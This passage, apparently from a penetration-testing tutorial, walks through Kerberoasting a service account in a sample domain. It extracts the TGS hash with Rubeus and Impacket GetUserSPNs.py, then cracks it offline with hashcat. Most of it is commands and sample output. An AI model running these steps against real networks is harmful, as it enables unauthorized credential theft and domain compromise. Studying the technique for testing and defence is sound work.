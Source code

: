 **From Windows:**
```powershell
# Using Rubeus (recommended):
.\Rubeus.exe kerberoast /user:sqlservice /nowrap

# Output:
[*] Action: Kerberoasting

[*] NOTICE: AES hashes will be returned for AES-enabled accounts.
[*] NOTICE: Use /tgtdeleg to force RC4_HMAC for these accounts.

[*] Target User            : sqlservice
[*] Target Domain          : corp.local
[*] Searching path 'LDAP://DC01.corp.local/DC=corp,DC=local' for '(&(samAccountType=805306368)(servicePrincipalName=*)(samAccountName=sqlservice)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))'

[*] Total kerberoastable users : 1

[*] SamAccountName         : sqlservice
[*] DistinguishedName      : CN=SQL Service,OU=Service Accounts,DC=corp,DC=local
[*] ServicePrincipalName   : MSSQLSvc/SQL01.corp.local:1433
[*] PwdLastSet             : 3/15/2020 10:23:45 AM
[*] Supported ETypes       : RC4_HMAC_DEFAULT
[*] Hash                   : $krb5tgs$23$*sqlservice$corp.local$MSSQLSvc/SQL01.corp.local:1433*$HASH_HERE...

# Copy the hash (everything from $krb5tgs$ to the end)
```

**From Linux (Kali):**
```bash
# Using GetUserSPNs.py (Impacket):
GetUserSPNs.py corp.local/john.doe:Password123 -dc-ip 192.168.1.10 -request -outputfile hashes.txt

# Output:
ServicePrincipalName           Name        MemberOf                                       PasswordLastSet             LastLogon  Delegation 
-----------------------------  ----------  ---------------------------------------------  --------------------------  ---------  ----------
MSSQLSvc/SQL01.corp.local:1433 sqlservice  CN=Database-Admins,OU=Groups,DC=corp,DC=local  2020-03-15 10:23:45.123456  <never>               

# Hash saved to hashes.txt:
cat hashes.txt
$krb5tgs$23$*sqlservice$corp.local$MSSQLSvc/SQL01.corp.local:1433*$HASH_HERE...
```

#### Step 4: Crack the Hash Offline

```bash
# Copy hash to file:
echo '$krb5tgs$23$*sqlservice$...' > sqlservice_hash.txt

# Crack with hashcat:
hashcat -m 13100 -a 0 sqlservice_hash.txt /usr/share/wordlists/rockyou.txt --force

# Expected output after some time:
$krb5tgs$23$*sqlservice$corp.local$...]:SQLPass123!

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 13100 (Kerberos 5, etype 23, TGS-REP)
Time.Started.....: Fri Oct 24 18:30:15 2025
Time.Estimated...: Fri Oct 24 18:35:22 2025 (5 mins 7 secs)

```